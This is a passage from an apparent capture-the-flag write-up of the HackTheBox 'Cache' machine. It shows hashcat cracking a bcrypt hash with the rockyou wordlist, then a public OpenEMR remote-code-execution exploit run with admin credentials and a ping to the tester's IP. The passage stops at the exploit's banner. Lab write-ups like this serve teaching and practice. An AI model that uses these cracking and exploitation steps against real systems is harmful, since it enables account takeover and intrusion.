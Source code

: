     Watchdog: Hardware monitoring interface not found on your system.
    Watchdog: Temperature abort trigger disabled.
    
    * Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=6 -D KERN_TYPE=3200 -D _unroll'
    * Device #1: Kernel m03200-pure.1d8f1f51.kernel not found in cache! Building may take a while...
    * Device #1: Kernel amp_a0.1dcc03ba.kernel not found in cache! Building may take a while...
    Dictionary cache hit:
    * Filename..: /usr/share/wordlists/rockyou.txt
    * Passwords.: 14344385
    * Bytes.....: 139921507
    * Keyspace..: 14344385
    
    $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.:xxxxxx
                                                     
    Session..........: hashcat
    Status...........: Cracked
    Hash.Type........: bcrypt $2*$, Blowfish (Unix)
    Hash.Target......: $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEc...F6P0B.
    Time.Started.....: Mon May 11 12:17:39 2020 (2 secs)
    Time.Estimated...: Mon May 11 12:17:41 2020 (0 secs)
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:      736 H/s (7.28ms) @ Accel:8 Loops:2 Thr:8 Vec:8
    Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
    Progress.........: 960/14344385 (0.01%)
    Rejected.........: 0/960 (0.00%)
    Restore.Point....: 768/14344385 (0.01%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:30-32
    Candidates.#1....: football1 -> sandy
    
    Started: Mon May 11 12:17:22 2020
    Stopped: Mon May 11 12:17:42 2020
    

### Authenticated Code Execution

#### POC

Now I can run the exploit script from searchsploit. I’ll try to have Cache
ping me to test:

    
    
    root@kali# python ./openemr-rce.py -u openemr_admin -p xxxxxx -c 'ping -c 1 10.10.14.47' http://hms.htb
     .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
    / .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
    | | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
    | | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
    \ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
     )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
    (_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                           